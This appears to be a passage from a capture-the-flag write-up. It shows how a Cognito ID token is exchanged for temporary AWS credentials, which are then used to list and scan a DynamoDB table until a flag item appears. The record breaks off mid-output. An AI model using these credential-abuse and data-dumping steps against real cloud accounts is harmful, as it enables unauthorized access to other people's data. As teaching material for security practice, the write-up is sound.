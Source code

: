First, the ID token must be obtained. Assume the ID token is `[EXAMPLE_ID_TOKEN]`.

```bash
python3 cognito_to_aws_creds.py \
    --id-token "[EXAMPLE_ID_TOKEN]" \
    --identity-pool-id "[CHALLENGE_COGNITO_IDENTITY_POOL_ID]" \
    --user-pool-id "[CHALLENGE_COGNITO_USER_POOL_ID]" \
    --region "[CHALLENGE_AWS_REGION]"
```

The script will output a series of `export` commands for AWS credentials:

```
# Run the following commands to set AWS environment variables:
export AWS_ACCESS_KEY_ID=[GENERATED_AWS_ACCESS_KEY_ID]
export AWS_SECRET_ACCESS_KEY=[GENERATED_AWS_SECRET_ACCESS_KEY]
export AWS_SESSION_TOKEN=[GENERATED_AWS_SESSION_TOKEN]
export AWS_REGION=[CHALLENGE_AWS_REGION]
```

Once these environment variables are exported, actions can be performed with the permissions granted to the Cognito user's IAM role. A common initial step is to enumerate accessible services or resources. Given the context of an "Emergency Broadcast System", DynamoDB is a likely candidate for storing data.

```bash
aws dynamodb list-tables --region [CHALLENGE_AWS_REGION]
```

The output might look like this:

```json
{
    "TableNames": [
        "[CHALLENGE_DYNAMODB_TABLE_NAME]"
    ]
}
```

A table, for instance named `[CHALLENGE_DYNAMODB_TABLE_NAME]`, is identified. Its contents can be retrieved by scanning the table:

```bash
aws dynamodb scan --table-name [CHALLENGE_DYNAMODB_TABLE_NAME] --region [CHALLENGE_AWS_REGION]
```

The output of the scan will reveal the items in the table. One of these items should contain the flag.

```json
{
    "Items": [
        ...
        {
            "priority": {
                "S": "1"
            },
            "region": {
                "S": "REDACTED"
            },
            "description": {
                "S": "REDACTED"
            },
            "id": {
                "S": "[EXAMPLE_DYNAMODB_ITEM_ID]"
            },
            "title": {
                "S": "flag"
            },
            "type": {
                "S": "REDACTED"
```